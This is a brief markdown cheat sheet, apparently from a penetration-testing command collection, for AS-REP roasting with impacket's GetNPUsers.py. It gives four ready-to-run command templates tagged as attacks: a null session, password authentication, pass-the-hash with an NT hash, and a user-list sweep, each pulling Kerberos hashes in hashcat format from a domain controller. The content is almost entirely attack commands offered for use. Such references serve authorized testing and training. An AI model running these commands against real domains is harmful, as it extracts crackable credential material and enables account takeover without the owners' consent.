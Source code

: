 # GetNPUsers (imp)

% impacket-kerberos, windows, kerberos, 88

## ASREPRoasting (null session)
#plateform/linux #target/remote #cat/ATTACK/EXPLOIT 
```
GetNPUsers.py  -request -format hashcat -dc-ip <dc_ip> '<domain>/'
```

## ASREPRoasting (user account)
#plateform/linux #target/remote #cat/ATTACK/EXPLOIT 
```
GetNPUsers.py  -request -format hashcat -dc-ip <dc_ip> '<domain>/<user>:<password>'
```


## ASREPRoasting (pth)
#plateform/linux #target/remote #cat/ATTACK/EXPLOIT 
```
GetNPUsers.py  -request -format hashcat -dc-ip <dc_ip> -hashes :<nt_hash> '<domain>/<user>'
```

## ASREPRoasting (userlist)
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
GetNPUsers.py -dc-ip <dc_ip> <domain>/ -usersfile <users_file> -format hashcat
```
